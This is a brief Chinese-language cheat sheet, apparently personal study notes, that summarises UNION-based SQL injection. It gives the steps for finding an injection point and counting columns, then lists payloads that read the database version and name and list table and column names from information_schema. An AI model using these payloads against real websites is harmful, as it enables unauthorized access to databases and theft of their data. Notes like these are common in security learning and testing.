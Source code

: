 ### SQL注入总结

- 第一步, 检查注入点
- 第二步, group by 查看前端回显字段数量
- 第三步, `union select 1,2,3,4` 根据前端显示判定回显字段
- 第二步, 注意闭合
- 注入代码:
    - `union select version(),database()`
    - `union select group_concat(table_name) from information_schema.tables where table_schema=database()`
    - `union select group_concat(column_name) from information_schema.columns where table_name=table_name`
- 根据列名查询数据, 注意limit